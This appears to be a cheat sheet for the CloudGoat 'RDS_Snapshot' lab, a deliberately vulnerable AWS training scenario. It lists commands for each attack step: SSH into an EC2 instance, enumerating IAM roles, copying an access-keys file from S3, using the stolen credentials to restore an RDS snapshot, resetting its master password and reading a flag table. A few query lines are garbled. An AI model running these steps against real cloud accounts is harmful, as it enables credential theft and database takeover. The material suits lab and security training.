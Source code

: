## Cheat Sheet


An attacker can gain access to a hijacked EC2 instance.


`cd RDS_Snapshot_cgid528tilly5h`


`ssh ec2-user@54.242.220.178 -i ./cloudgoat`


```
[ubuntu@ip-172-31-20-221 ~]$
```


An attacker can list AWS credentials on the server 


`aws sts get-caller-identity`


The attacker can check the permissions for the roles granted on EC2.


```
#Check the instance profiles
aws iam list-instance-profiles

aws iam list-role-policies --role-name cg-ec2-admin-role

aws iam get-role-policy --role-name cg-ec2-admin-role --policy-name cg-ec2-admin-policy
```


The attacker sees that S3 is accessible and steals the credentials.
```
aws s3 ls

aws s3 cp s3://cloudgoat/access_keys.txt .
```
The attacker accesses the stolen credentials.
```
aws configure --profile david
```
The attacker checks the permissions of the stolen credentials.
```
aws iam get-user --profile david


aws iam list-user-policies --user-name cg-rds-instance-user-RDS_Snapshot_cgidy7ybygks75 --profile david


aws iam get-user-policy --user-name cg-rds-instance-user-RDS_Snapshot_cgidy7ybygks75 --policy-name cg-david-policy --profile david


# The attacker verifies that he has RDS-related privileges
```

The attacker restores the RDS snapshot.

```
#Verify the information in the RDS snapshot
aws rds describe-db-instances --profile david

aws rds describe-db-snapshots --db-instance-identifier cg-rds



#Restore the RDS snapshot
aws rds restore-db-instance-from-db-snapshot \
    --db-instance-identifier attack-rds \
    --db-snapshot-identifier cg-rds-snapshot \
    --db-subnet-group-name cg-db-subnet-group \
    --vpc-security-group-ids sg-038cc4ee5486e9c42 \
    --profile david



#Wait for a new instance to be created


#Modify the RDS instance password
aws rds modify-db-instance \
    --db-instance-identifier attack-rds \
    --master-user-password attack1234! \
    --apply-immediately \
    --profile david



#Verify the master username
aws rds describe-db-instances --db-instance-identifier attack-rds --query \ "DBInstances[.1].1
"DBInstances[].MasterUsername" --profile david


#Determine the MySQL endpoint address
aws rds describe-db-instances --db-instance-identifier attack-rds --query \ "DBInstances[.
"DBInstances[].Endpoint.Address" --profile david


```

The attacker accesses the restored DB and hijacks the FLAG.
```
mysql -h attack-rds.czunzahrebkl.us-east-1.rds.amazonaws.com -P 3306 -u cgadmin -pattack1234!
show databases;
use mydatabase;
show tables;
select * from flag;
```
# Caveats
At the end of the scenario, the instance created by the Restore job is not deleted by ./cloudgoat.py destroy rds_snapshot. You need to delete it manually.
